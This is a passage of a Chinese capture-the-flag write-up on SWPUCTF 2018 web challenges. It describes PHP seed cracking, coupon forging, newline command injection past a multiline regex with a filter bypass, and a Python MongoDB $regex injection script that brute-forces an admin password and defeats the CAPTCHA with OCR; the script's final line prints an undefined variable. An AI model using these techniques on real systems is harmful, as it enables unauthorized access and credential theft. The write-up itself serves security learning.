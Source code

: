 那么需要爆破出来种子，用 `php_mt_seed` 很快就能爆出来

![](/img/swpuctf-2018-web-writeup/20181220091211.png)

然后提示说需要24位的优惠券，所以将题目给出的那个生成代码 `$len` 改成24，得到`86Q5yFEcmgNBtVrJRSpJZoO8`，填了生成的优惠码后跳转到了exec.php

然后因为正则使用了m修饰符，且只要有匹配项就可以直接进入，所以直接换行就可以执行命令了 ( 在burp里改成0a

![](/img/swpuctf-2018-web-writeup/20181220091212.png)

但是这里没法直接 `cat /flag` ，被过滤掉了，并且 `*`, `?` 也都被过滤掉了，这里用ph老师以前说过的一个点可以绕过

![](/img/swpuctf-2018-web-writeup/201812200912103.png)

# Injection ???

mongo的注入，写个脚本跑就好了

code by [zer0i3](https://zer0b.com/)

```python
import pytesseract
from PIL import Image
import requests
import os
import string

password = ''
string_list = string.ascii_letters + string.digits

s = requests.Session()

for i in range(32):
    for j in string_list:
        res = s.get('http://123.206.213.66:45678/vertify.php')
        image_name = os.path.join(os.path.dirname(__file__),'yzm.jpg')
        with open(image_name, 'wb') as file:
            file.write(res.content)
        image = Image.open(image_name)
        code = pytesseract.image_to_string(image)
        res = s.get('http://123.206.213.66:45678/check.php?username=admin&password[$regex]=^'+password + j +'&vertify='+code)
        while ('CAPTCHA' in res.content):
            res = s.get('http://123.206.213.66:45678/vertify.php')
            image_name = os.path.join(os.path.dirname(__file__),'yzm.jpg')
            with open(image_name, 'wb') as file:
                file.write(res.content)
            image = Image.open(image_name)
            code = pytesseract.image_to_string(image)
            res = s.get('http://123.206.213.66:45678/check.php?username=admin&password[$regex]=^'+password + j +'&vertify='+code)
        print password+j,res.content
        if 'Nice!But it is not the real passwd' in res.content:
            password += j
            print password
            break
        elif 'username or password incorrect' in res.content:
            continue
print passwd

```
